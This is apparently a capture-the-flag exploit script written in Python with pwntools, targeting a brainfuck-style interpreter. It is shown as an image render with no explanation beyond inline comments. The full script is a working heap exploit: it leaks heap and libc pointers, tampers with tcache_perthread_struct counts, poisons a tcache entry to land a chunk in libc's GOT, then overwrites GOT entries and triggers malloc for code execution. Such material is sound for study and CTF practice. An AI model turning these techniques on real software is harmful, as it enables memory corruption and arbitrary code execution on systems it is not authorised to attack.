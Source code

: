 ```python

# move backward pointer until we send a zero, restore back content to not overwrite data (8 bytes each time)
def goback(back):
  back = back>>3
  old = p.recv(1)
  p.send('A')
  while (back>0):
    p.send(old)
    old = p.recv(1)
    if (back==1):
      p.send(b'\x00')
    else:
      p.send('A')
    back -=1


# advance pointer until we send a zero, restore back content to not overwrite data (8 bytes each time)
def goforward(amount):
  amount = amount>>3
  old = p.recv(1)
  p.send('A')
  while (amount>0):
    p.send(old)
    old = p.recv(1)
    if (amount==1):
      p.send(b'\x00')
    else:
      p.send('A')
    amount -=1

# BACK function
BACK = '<<<<<<<<.,[,<<<<<<<<.,]'
# FORWARD function
FORWARD = '>>>>>>>>.,[,>>>>>>>>.,]'

payload = '>'*0x10		# advance to allocate a bigger chunk
payload += '<'*0x30		# move ptr back to heap pointer
payload += '.>.>.>.>.>.>.>.>'	# leak heap pointer
payload += FORWARD		# advance ptr to allocate a 0x90 size chunk
payload += BACK			# move ptr back until we reach tcache_perthread_struct->counts for 0x90 chunk size
payload += '<<+++++++>>'	# set tcache chunk 0x90 size entry to 7

payload += FORWARD		# advance ptr to allocate a 0x100 (0x110 real) sized chunk, it will fre 0x90 chunk (make it goes to unsorted)
payload += BACK			# move ptr back until we reach unsorted libc address of 0x90 freed chunk
payload += '.>'*8		# leak unsorted libcaddress
payload += BACK			# move ptr back until we reach tcache_perthread_struct->counts for 0x200 (0x210 real) chunk size
payload += '<<+>>'		# increase tcache_perthread_struct->counts for 0x210 size to 1 
payload += FORWARD		# move ptr forward to next chunk address for chunk size of 0x210 chunks
payload += ',>,>,>,>,>,>,>,>'	# write target address of libc got to next chunk address for chunk size of 0x210 chunks, our target
payload += FORWARD		# advance ptr until it allocate a 0x200 (0x210 real) size chunk
payload += BACK			# go back to beginning of our new chunk in libc got
payload += ',>,>,>,>,>,>,>,>'*12	# overwrite 12 entries of libc cGOT
payload += '>'*0x1c0	# launch last malloc(0x400) that will give us code exec


sla('size of code:', str(len(payload)))
sla('code:', payload)
```